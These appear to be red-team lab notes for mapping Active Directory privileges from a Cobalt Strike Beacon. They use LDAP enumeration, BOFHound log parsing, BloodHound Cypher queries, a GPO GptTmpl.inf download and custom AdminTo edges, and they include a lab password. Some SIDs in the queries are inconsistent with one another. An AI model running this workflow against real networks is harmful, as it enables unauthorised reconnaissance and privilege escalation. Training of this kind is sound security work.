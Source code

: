 - Use LDAP to enumerate the domain, users, groups, OUs, and GPOs.
    
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor

ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
```
    
-  Copy the raw Beacon logs to the Attacker Desktop.
    
    1. From the Windows Terminal, open a tab for Ubuntu.
        
    2. cd /mnt/c/Users/Attacker/Desktop
        
    3. scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .
        
        > The password is Passw0rd!.
        
-  Parse the logs with BOFHound
    
    1. bofhound -i logs

- Start Bloodhound CE and ingest data
- Using the following cypher query, search for GPOs in BloodHound:

```Cypher
Match (n:GPO) return n

MATCH (n:GPO)
WHERE n.domain = "CONTOSO.COM"
RETURN n

```

- Select the 'Workstation Admins' GPO.
    1. Take note of its Gpcpath.
    2. Expand its 'Affected Objects' and select 'Computers'.

-  Select each computer and note their Obiect ID.

- Return to Beacon
- Using the gpcpath for the Workstations Admins GPO, download its **GptTmpl.inf** file using Beacon.

![[Pasted image 20250714094204.png]]

```powershell
ls \\contoso.enclave\SysVol\contoso.enclave\Policies\{0FF094F9-69ED-476D-8DCB-1820DE60A666}\Machine\Microsoft\Windows NT\SecEdit\

download \\contoso.enclave\SysVol\contoso.enclave\Policies\{0FF094F9-69ED-476D-8DCB-1820DE60A666}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
```

- Sync the file to your Attacker Desktop.
    
    > View > Downloads.
    
-  Open the file in Notepad (or VSCode).
    
    1. Note the SID of the domain group.

![[Pasted image 20250714100312.png]]

> S-1-5-21-3926355307-1661546229-813047887-1106 is a member of S-1-5-32-544

```powershell
ldapsearch (objectSid=S-1-5-21-2958544638-1589230383-838459903-1605)
```

-  Add the custom edges in BloodHound.

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-1330904164-3792538338-293942156-2101'}) MATCH (y:Group{objectid:'S-1-5-21-1330904164-3792538338-293942156-2103'}) MERGE (y)-[:AdminTo]->(x)
```

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-2958544638-1589230383-838459903-2601'})
MATCH (y:Group{objectid:'S-1-5-21-1330904164-3792538338-293942156-2103'})
MERGE (y)-[:AdminTo]->(x)
```

> BloodHound will now show that rsteel has local administrative privileges on WKSTN-1 and 2.